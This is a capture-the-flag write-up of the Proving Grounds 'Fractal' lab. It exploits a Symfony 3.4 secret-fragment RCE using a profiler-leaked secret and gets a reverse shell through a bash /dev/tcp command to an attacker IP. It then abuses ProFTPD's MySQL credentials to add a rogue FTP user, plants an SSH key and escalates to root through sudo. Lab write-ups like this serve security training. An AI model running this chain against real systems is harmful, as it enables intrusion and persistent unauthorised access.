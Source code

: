 ```yaml
---
title: "Proving grounds Play: Fractal"
layout: post
date: 2023-10-14 02:00
categories: writeup
---
```


Proving grounds Practice - Fractal CTF writeup.

## Nmap

```text
PORT   STATE SERVICE VERSION
21/tcp open  ftp     ProFTPD
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 c1994b952225ed0f8520d363b448bbcf (RSA)
|   256 0f448badad95b8226af036ac19d00ef3 (ECDSA)
|_  256 32e12a6ccc7ce63e23f4808d33ce9b3a (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
| http-robots.txt: 2 disallowed entries 
|_/app_dev.php /app_dev.php/*
|_http-title: Welcome!
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## 21/tcp open  ftp - ProFTPD

Nothing in here...!

## 80/tcp open  http - Apache httpd 2.4.41 ((Ubuntu))

http://192.168.187.233/

```text
# symfony 3.4 robots.txt
User-agent: *
Disallow: /app_dev.php
Disallow: /app_dev.php/*
```
http://192.168.187.233/app_dev.php

Upon visiting the URL at the bottom of the page there are several options and informations disclosed. The website is using Symfony 3.4.46 which is vulnerable to [Remote Code Execution](https://github.com/ambionics/symfony-exploits).

## Exploitation

Click on the button in the `http://192.168.187.233/app_dev.php` page and which will show an URL where it fetches configuration files. In order to successfully exploit the vulnerabiltiy the `secret` should be obtained from the `app/config/parameters.yml` file.

Visit the below URL to obtain the secret.

```text
http://192.168.187.233/app_dev.php/_profiler/open?file=app/config/parameters.yml
```

**Running Exploit**

```sh
naveenj@hackerspace:|22:50|~/proving_grounds/Fractal/exploit/symfony-exploits$ python3 secret_fragment_exploit.py http://192.168.187.233/_fragment -s 48a8538e6260789558f0dfe29861c05b
The URL /_fragment returns 403, cool

Trying 4 mutations...
  (OK) sha256 48a8538e6260789558f0dfe29861c05b http://192.168.187.233/_fragment 404 http://192.168.187.233/_fragment?_path=&_hash=pJg5Iqk0DEkiGH%2B9AiIFPmO6KY7EtvD64sHvSReQyfA%3D

Trying both RCE methods...
  Method 1: Success!

PHPINFO: http://192.168.187.233/_fragment?_path=_controller%3Dphpinfo%26what%3D-1&_hash=4qF0rPIIXEuWrV%2FrR3ubq%2B%2B%2FSyIj1GyfHi%2FIChKUtFM%3D
RUN: secret_fragment_exploit.py 'http://192.168.187.233/_fragment' --method 1 --secret '48a8538e6260789558f0dfe29861c05b' --algo 'sha256' --internal-url 'http://192.168.187.233/_fragment' --function phpinfo --parameters what:-1
```

**Verify remote code execution**

```sh
naveenj@hackerspace:|23:05|~/proving_grounds/Fractal/exploit/symfony-exploits$ python3 secret_fragment_exploit.py 'http://192.168.187.233/_fragment' --method 2 --secret '48a8538e6260789558f0dfe29861c05b' --algo 'sha256' --internal-url 'http://192.168.187.233/_fragment' --function system --parameters "id"
```

![img](/assets/images/CTF/Proving_Grounds/Fractal/rce.png)

**Obtain reverse shell**

```sh
naveenj@hackerspace:|23:05|~/proving_grounds/Fractal/exploit/symfony-exploits$ python3 secret_fragment_exploit.py 'http://192.168.187.233/_fragment' --method 2 --secret '48a8538e6260789558f0dfe29861c05b' --algo 'sha256' --internal-url 'http://192.168.187.233/_fragment' --function system --parameters "bash -c '/bin/bash -i >& /dev/tcp/192.168.45.245/80 0>&1'"
```

```sh
naveenj@hackerspace:|05:53|~/proving_grounds/Fractal/exploit/symfony-exploits$ nc -lvnp 80
listening on [any] 80 ...
connect to [192.168.45.242] from (UNKNOWN) [192.168.187.233] 36306
bash: cannot set terminal process group (1012): Inappropriate ioctl for device
bash: no job control in this shell
www-data@fractal:/var/www/html/web$ 
```

**Initial Foothold Obtained**

## Privilege Escalation

As shown in the Nmap results there is a FTP service proftpd is running on port 21 with the mysql module enabled `/etc/proftpd/sql.conf`. We can create new user or add user `benoit` to the service which will give access to user benoit account. 

```sh
www-data@fractal:/etc/proftpd$ ll
total 1.4M
4.0K drwxr-xr-x 107 root root 4.0K Sep 27  2022 ..
4.0K -rw-r--r--   1 root root 2.9K Sep 27  2022 modules.conf
4.0K drwxr-xr-x   3 root root 4.0K Sep 27  2022 .
8.0K -rw-r--r--   1 root root 5.7K Sep 27  2022 proftpd.conf
4.0K -rw-r--r--   1 root root 1.2K Sep 27  2022 sql.conf    #sql config file
4.0K -rw-r--r--   1 root root 2.1K Sep 27  2022 tls.conf
4.0K -rw-r--r--   1 root root  832 Sep 27  2022 virtuals.conf
4.0K -rw-------   1 root root  701 Sep 27  2022 ldap.conf
1.3M -rw-r--r--   1 root root 1.3M Feb 27  2020 blacklist.dat
4.0K drwxr-xr-x   2 root root 4.0K Feb 27  2020 conf.d
 12K -rw-r--r--   1 root root 9.2K Feb 27  2020 dhparams.pem
www-data@fractal:/etc/proftpd$
```

The `sql.conf` has database credentials, extratct the credentials and login via mysql.

```conf
# used to connect to the database 
# databasename@host database_user user_password 
SQLConnectInfo proftpd@localhost proftpd protfpd_with_MYSQL_password
```

Credentials = `proftpd:protfpd_with_MYSQL_password`

```sh
www-data@fractal:/etc/proftpd$ mysql -uproftpd -pprotfpd_with_MYSQL_password
mysql: [Warning] Using a password on the command line interface can be insecure.
Welcome to the MySQL monitor.  Commands end with ; or \g.
Your MySQL connection id is 11
Server version: 8.0.30-0ubuntu0.20.04.2 (Ubuntu)

Copyright (c) 2000, 2022, Oracle and/or its affiliates.

Oracle is a registered trademark of Oracle Corporation and/or its
affiliates. Other names may be trademarks of their respective
owners.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

mysql> 
```

Please refer [here](https://medium.com/@nico26deo/how-to-set-up-proftpd-with-a-mysql-backend-on-ubuntu-c6f23a638caf) for more info on creating user for proftpd using mysql.

### Adding User

Use the below to generate the password.

```sh
/bin/echo "{md5}"`/bin/echo -n "password" | openssl dgst -binary -md5 | openssl enc -base64`
```

**Updating table**

```sh
mysql> select * from ftpuser;
+----+--------+-------------------------------+-----+-----+---------------+---------------+-------+---------------------+---------------------+
| id | userid | passwd                        | uid | gid | homedir       | shell         | count | accessed            | modified            |
+----+--------+-------------------------------+-----+-----+---------------+---------------+-------+---------------------+---------------------+
|  1 | www    | {md5}RDLDFEKYiwjDGYuwpgb7Cw== |  33 |  33 | /var/www/html | /sbin/nologin |     0 | 2022-09-27 05:26:29 | 2022-09-27 05:26:29 |
+----+--------+-------------------------------+-----+-----+---------------+---------------+-------+---------------------+---------------------+
1 row in set (0.00 sec)

mysql> INSERT INTO `ftpuser` (`id`, `userid`, `passwd`, `uid`, `gid`, `homedir`, `shell`, `count`, `accessed`, `modified`)
    -> VALUES (NULL, 'benoit', '{md5}X03MO1qnZdYdgyfeuILPmQ==', '1000', '1000', '/', '/bin/bash', '0', '2023-10-14 05:26:29', '2023-10-14 05:26:29');   #query to add user
Query OK, 1 row affected (0.00 sec)

mysql> select * from ftpuser;
+----+--------+-------------------------------+------+------+---------------+---------------+-------+---------------------+---------------------+
| id | userid | passwd                        | uid  | gid  | homedir       | shell         | count | accessed            | modified            |
+----+--------+-------------------------------+------+------+---------------+---------------+-------+---------------------+---------------------+
|  1 | www    | {md5}RDLDFEKYiwjDGYuwpgb7Cw== |   33 |   33 | /var/www/html | /sbin/nologin |     0 | 2022-09-27 05:26:29 | 2022-09-27 05:26:29 |
|  2 | benoit | {md5}X03MO1qnZdYdgyfeuILPmQ== | 1000 | 1000 | /             | /bin/bash     |     0 | 2023-10-14 05:26:29 | 2023-10-14 05:26:29 |
+----+--------+-------------------------------+------+------+---------------+---------------+-------+---------------------+---------------------+
2 rows in set (0.00 sec)
```

## 21/tcp open  ftp - ProFTPD
 
Login to ftp using `benoit:password`.

Direct to user `benoit` directory and create .ssh folder. Download the local machine public ssh key `id_rsa.pub` as authorized_keys into the attacking machine via ftp.

```sh
ftp> cd benoit
250 CWD command successful
ftp> mkdir .ssh
257 "/home/benoit/.ssh" - Directory successfully created
ftp> ls
229 Entering Extended Passive Mode (|||56047|)
150 Opening ASCII mode data connection for file list
-r--r--r--   1 benoit   benoit         33 Oct 15 09:44 local.txt
226 Transfer complete
ftp> cd .ssh
250 CWD command successful
ftp> put authorized_keys 
local: authorized_keys remote: authorized_keys
229 Entering Extended Passive Mode (|||60851|)
150 Opening BINARY mode data connection for authorized_keys
100% |***********************************************************************************************************************************************************************************************|   573       10.50 MiB/s    00:00 ETA
226 Transfer complete
573 bytes sent in 00:00 (1.71 KiB/s)
ftp> 
```

Now SSH to the user `benoit` and run executable permissions list command.

```sh
$ whoami
benoit
$ id
uid=1000(benoit) gid=1000(benoit) groups=1000(benoit)
$ sudo -l
Matching Defaults entries for benoit on fractal:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User benoit may run the following commands on fractal:
    (ALL) NOPASSWD: ALL
```

The user is allowed to run ALL. Use `sudo su` to escalate privileges.

```sh
$ sudo su
root@fractal:/home/benoit# id
uid=0(root) gid=0(root) groups=0(root)
root@fractal:/home/benoit# 
```

**Root Obtained**

## Reference

- [https://medium.com/@nico26deo/how-to-set-up-proftpd-with-a-mysql-backend-on-ubuntu-c6f23a638caf](https://medium.com/@nico26deo/how-to-set-up-proftpd-with-a-mysql-backend-on-ubuntu-c6f23a638caf)

Thanks for reading!

For more updates and insights, follow me on Twitter: [@thevillagehacker](https://twitter.com/thevillagehackr).